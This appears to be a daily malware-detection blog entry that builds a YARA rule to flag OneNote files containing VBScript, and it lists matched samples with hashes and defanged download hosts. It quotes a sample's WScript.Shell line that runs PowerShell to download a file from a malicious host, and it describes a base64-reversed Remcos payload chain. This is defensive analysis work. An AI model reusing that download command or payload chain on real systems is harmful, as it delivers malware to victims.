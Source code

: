 # Day 4 | Onenote files with Scripts

Todays yara rule is a continution from yesterday. To start I looked at the the malware sample `pdf172.one` from the article [Trojanized OneNote Documents Lead to Formbook Malware](https://www.trustwave.com/en-us/resources/blogs/spiderlabs-blog/trojanized-onenote-document-leads-to-formbook-malware/?&web_view=true):

The sections I used to guide my yara rules were:
```
<job id="code"><script language="VBScript">
```
and
```
CreateObject("WScript.Shell").Run "cmd /c powershell Invoke-WebRequest -Uri http[:]//a0745450[.]xsph[.]ru/INVESTMENT.one -OutFile $env:tmp\invoice.one
```

I added in the yara keyword `nocase` the prevent easy rule evasion.

# Yara Rule

Here's the Yara rule that I created to detect OneNote files with script usage!

```
rule sus_onenote_scripting {
  meta:
    author = "Colin Cowie"
    description = "Detects OneNote files with script usage"
  strings:
  	$file_header = { E4 52 5C 7B 8C D8 A7 4D AE B1 53 78 D0 29 96 D3 }
    $vbs = "VBScript" nocase
    $wscript = "WScript.Shell"  nocase
    $script_tag ="<script " nocase
  condition:
  (
    $vbs or $wscript or $script_tag
  ) and
	$file_header at 0
}
```

# Results

### Intresting Result 1 
Filename: `Invoice_32732.one`

SHA1: `126cd120825f7e1f6e0d2f1aac718c7220f2a9d1`

VT Upload Date: `2023-01-09 19:14:37 UTC	`	

Functionality: Download's additonal malware from: `stnicholaschurch[.]ca/Invoice[.]one` (ASyncRat)
![Malicious OneNote document](example_1.PNG)

### Intresting Result 2
Filename: `Architectural Ground & Floor Drawing.one`

SHA1: `db1568f09034158dd384c9db6ae3cebeac2f02d8`

VT Upload Date: `2023-01-11 22:23:22 UTC	`	

Functionality: 

1. Downloads encoded VBS script from `194.26.192[.]233/summerTime.vbs`
2. Performs request to `http[:]//194.26.192[.]233/summerTime.txt`
3. The response is a base64 encoded and reversed executable binary (The payload is **Remcos** information stealer)

![Malicious OneNote document](example_2.PNG)

# References

- https://yara.readthedocs.io/en/stable/writingrules.html
- https://www.trustwave.com/en-us/resources/blogs/spiderlabs-blog/trojanized-onenote-document-leads-to-formbook-malware/